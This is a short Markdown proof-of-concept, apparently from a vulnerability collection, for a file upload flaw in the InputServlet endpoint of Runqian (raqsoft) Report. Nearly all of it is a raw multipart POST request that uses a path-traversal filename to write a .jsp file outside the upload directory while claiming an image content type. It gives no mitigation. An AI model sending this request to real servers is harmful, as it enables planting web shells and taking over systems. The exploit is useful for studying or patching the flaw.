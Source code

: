 ## 润乾报表InputServlet接口存在文件上传漏洞

环境：https://github.com/charlesvhe/raqsoft

## poc
```
POST /InputServlet?action=12 HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: multipart/form-data; boundary=--------------------------170005680039721412137562
Accept-Encoding: gzip, deflate, br
Content-Length: 2401

----------------------------170005680039721412137562
Content-Disposition: form-data; name="upsize"

1024
----------------------------170005680039721412137562
Content-Disposition: form-data; name="file"; filename="/\..\\..\2.jsp"
Content-Type: image/png

11111
----------------------------170005680039721412137562--

```

![image](../../images/040e8f76-a72c-47db-a161-d14cab5db001.png)

![image](../../images/bea567d7-6648-4cbe-990a-8fbb876d7660.png)


## 漏洞来源
- https://mp.weixin.qq.com/s/-u1fn_q4e-YhJUEqwNG1Zg
